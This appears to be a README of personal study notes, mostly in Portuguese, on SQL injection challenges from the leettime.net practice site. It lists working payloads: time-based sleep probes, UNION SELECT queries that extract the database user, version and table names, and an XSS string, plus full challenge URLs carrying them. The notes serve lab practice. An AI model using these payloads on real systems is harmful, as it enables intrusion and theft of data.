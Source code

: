 # leettime

DB : TABELA : COLUNA : LINHA
                              
select **COLUNA0,COLUNA1** from **TABELA0**
                                       
select * from **notas** where **IDaluno=1337 **         

select * from notas where IDaluno='1337'
                                          
select * from notas where IDaluno="1337"
                                             
select * from notas where IDaluno=(1337)
                        
select * from notas where IDaluno('1337')
                                                                                                     
select * from notas where IDaluno("1337")    
                                                 
?id=????              

```
________________________________________                                                              
     TABELA0         |   TABELA2        |                                                             
_____________________|__________________|                                                             
COLUNA1  |   COLUNA2 | COLUNA1 | COLUNA2|
---------------------|------------------|
 LINHA1  |   LINHA1  | [...]   | [...]
 LINHA2  |   LINHA2  |
             LINHA3  |
```
```
COMENTARIOS: -- | # | ;%00 | `

SQLI: select * from username where id=1

SQLI: select nome from username where id=injection

id=1' and sleep(5)--+a   <<<<<< FACA ISSO SEMPRE


1- BALANCEIO | 2- INJECTION | 3-COMENTARIO

SQLI: select * from username where id=1

SQLI: select nome from username where id=injection

id=1' and sleep(5)--+a   <<<<<< FACA ISSO SEMPRE


1- BALANCEIO | 2- INJECTION | 3-COMENTARIO

---------------------------------------------

UNION IDENTIFIQUE,<<<<<<<<<<<<

id=1' order by 1 --+anakein

?id=64' union select 13,<h1>PWN</h1>,3--+anakein      <<< XSS

?id=null' union select 66,user(),66--+anakein

?id=null' union select 66,database(),66--+anakein

?id=null' union select 66,concat(@@version_compile_os,0x20,@@version_compile_machine),66--+anakein

?id=null' union select 66,concat(select table_name from information_schema.tables where database()),66
```

## Basic Injection

#### Challenge 1
```
http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=null' union select 66,(select table_name from information_schema.tables where table_schema=database() limit 2,1),66--+anakein
```

![list_table1](https://raw.githubusercontent.com/e-anakein/leettime/master/images/photo_2019-05-24_22-51-48.jpg)

#### Challenge 4

```
http://leettime.net/sqlninja.com/tasks/basic_ch4.php?id=1') and sleep(5) --+anakein
```
